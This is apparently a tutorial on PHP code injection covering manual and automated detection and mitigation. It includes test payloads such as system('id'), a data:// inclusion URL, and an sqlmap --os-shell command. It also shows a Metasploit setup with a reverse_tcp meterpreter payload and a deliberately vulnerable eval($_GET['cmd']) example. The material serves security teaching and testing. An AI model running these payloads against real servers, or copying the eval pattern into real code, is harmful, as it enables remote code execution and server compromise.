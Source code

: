 ## PHP Code Injection?

PHP Code Injection is a vulnerability that allows an attacker to execute arbitrary PHP code on a server by injecting malicious input. This usually happens when **user input is improperly handled** and passed to functions like `eval()`, `system()`, `exec()`, or `include()`.

### How It Works

An attacker can manipulate input parameters to execute unintended PHP commands, leading to:

- Data leakage (accessing sensitive files)
- System command execution (gaining control of the server)
- Complete server compromise

### How to detect the vulnerability

### **Manual PHP Code Injection Detection**  
PHP code injection occurs when user input is executed as PHP code due to insufficient input validation. Here’s how you can detect it manually:

#### **1. Input-Based Testing**  
Try injecting PHP code into input fields, URLs, or HTTP headers. Some common test payloads:  
```php
<?php phpinfo(); ?>
<?= system('id'); ?>
<?php echo shell_exec('ls -la'); ?>
```
- If the output reveals system details or command execution, the application is vulnerable.

#### **2. Observing Unexpected Behavior**  
- If a PHP syntax error appears in the response, it might indicate code injection.  
- If the application behaves unexpectedly (e.g., long response times), it might be executing injected code.

#### **3. Testing with File Inclusion**  
If the application includes files dynamically, try injecting:  
```
http://example.com/index.php?page=data://text/plain,<?php system('id'); ?>
```
This abuses PHP’s `data://` wrapper to execute code.

#### **4. Checking for Log or Eval Execution**  
- If user input is logged and later evaluated (`eval`, `assert`, `preg_replace('/.*/e', ...)`), injecting PHP code into logs could lead to execution.

---

### **Automated PHP Code Injection Detection**  
Automation helps speed up testing and ensures broader coverage. Some tools include:

#### **1. Burp Suite (Intruder & Scanner)**  
- Use Burp Intruder to inject PHP payloads in various parameters.  
- Burp’s Active Scanner can detect potential PHP code execution vulnerabilities.

#### **2. Nuclei (Automation Framework)**  
Use **Nuclei** with a PHP injection template to scan multiple endpoints:  
```yaml
id: php-code-injection  
info:  
  name: PHP Code Injection  
  severity: high  
requests:  
  - method: GET  
    path:  
      - "{{BaseURL}}/vulnerable.php?param=<?php system('id'); ?>"  
    matchers:  
      - type: word  
        part: body  
        words:  
          - "uid="  
```
Run it with:  
```bash
nuclei -t php-code-injection.yaml -u http://example.com
```

#### **3. SQLmap (For PHP Code Execution via SQL Injection)**  
If an application is vulnerable to SQL injection, SQLmap can be used for RCE:  
```bash
sqlmap -u "http://example.com/index.php?id=1" --os-shell
```

#### **4. Metasploit (PHP Code Injection Exploit)**  
```bash
use exploit/multi/http/php_eval
set RHOSTS target.com
set PAYLOAD php/meterpreter/reverse_tcp
exploit
```

#### **5. WPScan (For WordPress PHP Injection)**  
If testing a WordPress site, WPScan can check for PHP execution vulnerabilities:  
```bash
wpscan --url http://example.com --enumerate vp
```



### Example of PHP Code Injection Vulnerability

A poorly secured script might include:

```
if (isset($_GET['cmd'])) {
    eval($_GET['cmd']); // ⚠ Vulnerable to code injection
}
 
```

An attacker could execute:

```
http://127.0.0.1/phpcode.php?cmd=phpinfo()](http://example.com/vuln.php?cmd=phpinfo()) 
```

or even execute system commands if `eval()` allows it:

```
http://127.0.0.1/phpcode.php?cmd=system('ls');
```

### **Mitigation Strategies**

To prevent PHP Code Injection:

 - **Avoid `eval()` and similar functions**

 - **Use allowlists** (Only permit specific commands)

 - **Sanitize and validate input**

 - **Use prepared statements for database queries**

 - **Disable dangerous PHP functions in `php.ini`**

 - **disable exec(), shell_exec(), passthru(), and system() functions in PHP configuration unless it is absolutely necessary to use them. You can also create a whitelist of accepted commands/arguments.**
